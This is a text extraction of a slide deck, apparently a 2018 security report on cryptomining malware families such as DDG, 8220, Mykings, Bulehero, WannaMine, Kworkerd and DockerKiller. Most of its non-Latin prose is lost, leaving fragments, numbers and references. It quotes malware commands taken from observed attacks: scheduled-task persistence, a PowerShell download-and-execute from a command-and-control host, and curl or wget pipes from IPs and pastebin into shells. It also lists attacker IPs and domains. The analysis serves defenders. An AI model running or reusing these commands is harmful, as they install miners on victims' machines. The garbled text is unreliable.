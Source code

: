 2018 
2018 

20191
1

2018 

 Yohai Einav
 2018     0-Day/N-Day   "  "  
  "" 2018  
   0-Day/N-Day "",0-Day
   Web   
  
  

2

2018 

 0-Day/N-Day  "  ",0-Day  
2018  web   
""  N-Day   Struts  0-Day/ N-Day 
0-Day   Jboss  2017  5  JbossMiner  2018  3  Drupal  ThinkPHP   0-Day  
 Web   Web WAF
RASP Web  Web  (RedisHadoopSQLServer  )   Web  
3

2018 
 DDG  Redis   2018  Web 
 
 SSH/RDP/ SQLServer   
4

2018 

 
  DDGDockerKillerRDPMiner   
  8220  
 
  Linux  crontab 
 Windows  schtask  WMI  
 Bulehero  schtask  :
cmd /c schtasks /create /sc minute /mo 1 /tn "Miscfost" /ru system /tr "cmd /c C:\Windows\ime\scvsots.exe"
cmd /c schtasks /create /sc minute /mo 1 /tn "Netframework" /ru system /tr "cmd /c echo Y|cacls C:\ Windows\scvsots.exe /p everyone:F"
 WannaMine  WMI 
5

2018 
cmd /c echo powershell -nop "$a=([string](GetWMIObject -Namespace root\Subscription -Class __ FilterToConsumerBinding ));if(($a -eq $null) -or (!($a. contains(`SCM Event Filter')))) {IEX(New-Object Net. WebClient).DownloadString(`http[:]//stafftest.spdns[.] eu:8000/mate6.ps1')}" >%temp%\y1.bat && SCHTASKS /create /RU System /SC DAILY /TN yastcat /f /TR "%temp%\y1.bat" &&SCHTASKS /run /TN yastcat<c/ ode>
 
Bulehero  scvsots.exe windows  svchost.exe   taskhsot.exetaskmgr.exejava  
 md5  
  Windows  UPXVMPsfxrar   RDPMiner 
6

2018 
 JBossMiner  vbs 
 
  8220 " " monerohash.com    HashRate 

1. DDG   2017 DDG 
 go   2018   1) 
7

2018 
 Orientdb   Redis   SSH  2)   3)    104.236.156.211  ip    cc  8000  8443 4)   DDG  i.sh 
/bin/sh -c curl -L http://104.236.156.211:8000/i.sh | sh  i.sh ddgs  DDG  201X  301X,   3019
8

2018 
2. 8220  8220 
 
 8220  1) 
 WebLogic XMLDecoder   Drupal   JBoss   Couchdb   Redis   Hadoop Yarn 
2)     

3)   
4) 
9

2018 
3. Mykings(theHidden)  Mykings theHidden"" 2017 
 2014   MiraiMasscan  payloadBypassUAC    11 ""  1) 
 msinfo.exe  1433 
 3306 MySQL  135 WMI  22 SSH  445 IPC  23 Telnet  80 Web  3389 RDP
10

2018 
2)     "" MBR  Bootkit
3)   
4)  MyKings  mirai 
 masscan"" 
4. Bulehero  1) 
2018  Bulehero "" Struts2  Weblogic  1433  (SQL Server)  IPC   ThinkPHP   2) 
11

2018 
  3) 
  a46.bulehero.in   4) 
5. RDPMiner   2018  10 
 1) 
 RDP  2) 
    Windows   
3) 
12

2018 
  111.63.225.242  4) 
6. JbossMiner   2018  3  JbossMiner
 py2exe  Python  Windows  Linux  1) 
 Jboss   Struts2   "" 2)    3) 
13

  enjoytopic.esy.es  4) 

2018 

7. WannaMine WannaMine 
CrowdStrike ""(living off the land)  Mimikatz  "" 1) 
 ""  RDP  2) 
14

2018 
    dump  3)    http://118.184.48.95:8000  4) 
8. Kworkerd  Redis 
 Linux  Kworkerd  1) 
 Redis  2) 
    /etc/ld.so.preload  Linux   topps 
15

3)    pastebin 
4)    https://pastebin.com/raw/
xbY7p5Tb  
(curl -fsSL https://pastebin.com/raw/uuYVPLXd||wget -q -O- https://pastebin.com/raw/uuYVPLXd)|base64 -d|/ bin/bash

2018 

 https://pastebin.com/raw/uuYVPLXd   
 
9. DockerKiller
  Docker  2018  8 Docker   1) 
 Docker  2) 
 

16

2018 
  Windows      3)    http://159.203.21.239  auto.sh   
4) 
17

2018 

 2019   
      0-Day      Web   Web   IPS  0-Day 
18

2018 

1. MyKing  https://x.threatbook.cn/nodev4/vb4/article?threatInfoID=936 2. ""  https://www.huorong.cn/info/150097083373.html 3. DDG  800  http://www.4hou.com/technology/11770.html 4.  bulehero "" https://www.freebuf.com/column/180544.html 5. JbossMiner  https://xz.aliyun.com/t/2189 6. Kworkerd  https://www.anquanke.com/post/id/159497 7. Threat Hunting, the Investigation of Fileless Malware Attacks https://www.pandasecurity.com/mediacenter/pandalabs/threathunting-fileless-attacks/ 8. Cryptomining: Harmless Nuisance or Disruptive Threat? https://www.crowdstrike.com/blog/cryptomining-harmless-nuisancedisruptive-threat/ 9. "8220" https://ti.360.net/blog/articles/8220-mining-gang-in-china/ 10.http://ju.outofmemory.cn/entry/354000
19

2018 
20

